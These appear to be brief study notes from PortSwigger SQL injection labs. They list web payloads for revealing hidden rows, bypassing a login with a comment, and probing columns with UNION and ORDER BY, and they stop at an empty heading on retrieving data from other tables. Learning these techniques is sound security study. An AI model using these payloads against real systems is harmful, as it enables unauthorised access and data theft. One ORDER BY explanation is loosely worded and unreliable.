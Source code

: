 SQL INJECTION - Portswigger Notes
-----------------



#### 1. To find hidden data

```
' OR 1=1--
```



#### 2. Login bypass

```
administrator'--
```





## Using UNION

#### 1. To find no. of cols:

```
' UNION select NULL,NULL,NULL--
```

no.of NULL's is no. of cols ->200 response



```
  ' ORDER BY 1--
```

no. determines cols. -> if shown internal error, it' correct value





#### 2. To identify datatype of column.

```
' UNION select NULL, 'a', NULL 
```

 i) if error its not string  

ii) else its string  

iii) can be analysed by,

     `' order by 1--`



s

#### 3. Retrieving data from other table


























